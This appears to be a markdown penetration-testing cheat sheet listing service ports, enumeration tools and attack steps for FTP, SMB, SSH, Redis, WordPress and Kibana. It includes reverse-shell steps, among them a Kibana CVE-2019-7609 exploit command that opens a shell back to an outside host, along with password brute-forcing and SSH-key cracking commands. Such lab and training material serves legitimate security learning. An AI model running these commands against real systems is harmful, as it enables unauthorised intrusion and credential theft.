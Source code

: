 # Scan 

INPUT
- Information About Target
- Open Ports
- Services
- Potentail vulnerability
PROCESS
- Scan and Enumerate Service
- Scan and Enumerate Platform
TOOLS
- Fuzzing tools
- burp suite
- nikto
- hydra
- john
- sqlmap
- searchsploit
- netcat
- mysql
- browser
- source
- python
OUPUT
- service:user:pass
- vulnerability
- Reverse shell


# Scan and Enumerate Service

20,21              FTP     File Transfer Protocol                 TCP      
22                 SSH     Secure Shell                           TCP/UDP  
23                 Telnet                                         TCP      
25                 SMTP    Simple Mail Transfer Protocol          TCP      
50,51              IPSec   IPSec                                             
53                 DNS     Domain Name System                     TCP/UDP  
67,68              DHCP    Dynamic Host Configuration Protocol    UDP      
69                 TFTP    Trivial File Transfer Protocol         UDP      
80                 HTTP    HyperText Transfer Protocol            TCP      
110                POP3    Post Office Protocol                   TCP      
111                RPC     Remote Procedure Call                  TCP      
119                NNTP    Network News Transport Protocol        TCP      
123                NTP     Network Time Protocol                  UDP      
135-139                    NetBIOS                                TCP/UDP  
143                IMAP4   Internet Message Access Protocol       TCP/UDP  
161,162            SNMP    Simple Network Management Protocol     TCP/UDP  
389                LDAP    Lightweight Directory Access Protocol  TCP/UDP  
443                HTTPS   HTTP with Secure Sockets Layer, SSL    TCP/UDP  
445                SMB     Server Message Block                   TCP      
465                SMTP    Secure Simple Mail Transfer Protocol   TCP      
995                POP3S   Post Office Protocol                   TCP      
2049               NFS     Network File System                    TCP      
989,990            FTPS    FTP over SSL/TLS (implicit mode)       TCP      
3306               MySql   mysql                                  TCP      
3389               RDP     Remote Desktop Protocol                TCP/UDP  
6379               Redis   Redis                                  TCP      

- SMB
    - [Enum4Linux]
    - [smbclient]
    - [nmap] <nmap --script smb-enum-shares.nse -p445 target.ip>
    - [VULNERABILITIES]
        - [CVE-2017-0143] [ms17-010]
            - Remote Code Execution vulnerability in Microsoft SMBv1 servers
            - https://www.exploit-db.com/exploits/43970
            - https://www.exploit-db.com/exploits/42315
- FTP
    - [ftp]
        - ftp user/anonymous to remote server 
        - put php-reverse-shell.php
    - [hydra]: bruteforce the password of the FTP Server
- Telnet
    - [telnet]
    - [netcat]
- HTTP
    - Browser
        - Source
        - Network
        - javascript
        - /robots.txt
        - /sitemap.xml
    - Directory fuzzing
        - [dirb]
        - [dirbuster]
        - [gobuster]
        - [wfuzz]
        - [ffuf]
        - [feroxbuster]
    - [BurpSuite]
        - Request
        - Response
    - [wpscan]: Wordpress CMS scan
    - [Manual]: Find Web Applicatin Vulnerability:
        - OWASP Top 10
        - IDOR: Insecure Direct Object Reference
            - plain
            - base64
            - hash https://crackstation.net
            - Unpredictable
        - FI: File inclusion
            - Local File Inclusion: Attacker can include a malicious file only from the same server
            - Remote File Inclusion
        - PT: Path Traversal
        - SSRF: Server-Side Request Forgery
            - regular SSRF
            - Blind SSRF
        - XSS: Cross-site Scripting
            - Proof Of Concept
            - Session Stealing
            - Key Logger
            - Business Logic
        - RCE: Remote Code Execution
        - SQLi: SQL Injection
            - In-Band SQL Injection
            - Blind SQLi
    - [whatweb]
    - [nikto]: Vulnerability scanning
    - [searchsploit]: Finding and web application vulnerabilities
    - [hydra]: Brute Force Login
    - [metasploit]: Finding and exploiting web application vulnerabilities
    - [Password]: Authentication Attack
        - [JtR]: Single Mode / Wordlist / Brute-Force
        - [hydra]: Wordlist Attack
        - [crunch]: Hybrid Dictionary Attack [crunch]
        - [RainbowCrack]: Rainbow Tables http://project-rainbowcrack.com/table.htm
    - [python]
        - [2to3]: Convert pythonRecon2 to python3
        - Run python expolit file again
- NFS
    - [mount]: Mounting NFS shares <sudo mount -t nfs IP:share /tmp/mount/ -nolock>
- SMTP
    - [msfconsole]
- RPC
    - [nmap] <nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount target.ip>
    - [rpcinfo] <rpcinfo target.ip>
    - [showmount] <showmount -e target.ip>
    - [mount] <sudo mount -t nfs target.ip:/share /mnt/nfs>
    - [umount] <sudo umount -f -l /mnt/nfs>
- SSH
    - [ssh]:
        - <ssh user@target.ip -p 22>
        - <ssh -i id_rsa user@target.ip -p 1337>
        - <ssh -i id_rsa -T user@target.ip -p 1337>
    - [hydra]
        - Brute Force Login
    - [nmap] <nmap --script ssh-auth-methods target.ip>
    - [john]
        - ssh2john id_rsa > id_rsa.hash
        - john -w=/usr/share/wordlists/rockyou.txt id_rsa.hash
- MySql
    - [mysql]
        - connet with root:root <mysql -u root -h target.ip -p>
    - [msfconsole]
    - [hydra]
        - Brute Force Login
- Redis
    - [namp] <nmap --script redis-info -sV -p 6379 target.ip>
    - [nc] 
        - <nc -vn 10.10.10.10 6379>
        - INFO
    - [redis-cli]
        - <redis-cli -h target.ip>
        - INFO
        - set password for redis 
            - <config set requirepass p@ss$12E45>
            - SAVE
- POP3
    - [telnet] <telnet target.ip 110>


# Scan and Enumerate Platform
- Wordpress
    - [wpscan]
        - scan
        - brut-force
        - php-reverse-shell to 404.php
        - run 404.php on browser ann get shell
- kibana
    - [CVE-2019-7609] 
        - https://github.com/LandGrey/CVE-2019-7609
        - wget https://raw.githubusercontent.com/LandGrey/CVE-2019-7609/master/CVE-2019-7609-kibana-rce.py
        - python2 CVE-2019-7609-kibana-rce.py -h
        - python2 CVE-2019-7609-kibana-rce.py -u http://target.ip:5601 -host 10.8.56.2 -port 4444 --shell




# References
[//]: # (References)
Vulnerability Scanning Tools and Public Repositories
- [Nessus]
- [Nexpose]
- [OpenVAS]
- [ExploitDB] https://www.exploit-db.com
- [NVD] <https://nvd.nist.gov/vuln/search>
- [Mitre] <https://www.cve.org>
- [OVAL] <https://oval.cisecurity.org/repository>
- [rapid7] <https://www.rapid7.com/db/>
- [favicon] <https://wiki.owasp.org/index.php/OWASP_favicon_database>
- [dencode] <https://dencode.com>
